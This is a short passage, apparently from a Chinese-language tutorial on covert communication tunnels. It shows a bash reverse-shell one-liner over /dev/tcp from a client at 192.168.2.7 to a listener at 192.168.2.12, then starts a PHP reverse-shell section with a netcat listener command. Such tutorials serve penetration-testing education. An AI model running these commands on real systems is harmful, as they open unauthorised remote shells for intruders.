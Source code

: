客户端（192.168.2.7）执行bash命令反弹shell给服务端（192.168.2.12）：

```
bash -i >& /dev/tcp/192.168.2.12/6666 0>&1
```

![](img/隐藏通信隧道基础知识/44.png)


（12）PHP反弹shell

服务端监听本地端口6666：

```
nc -lvp 6666
```
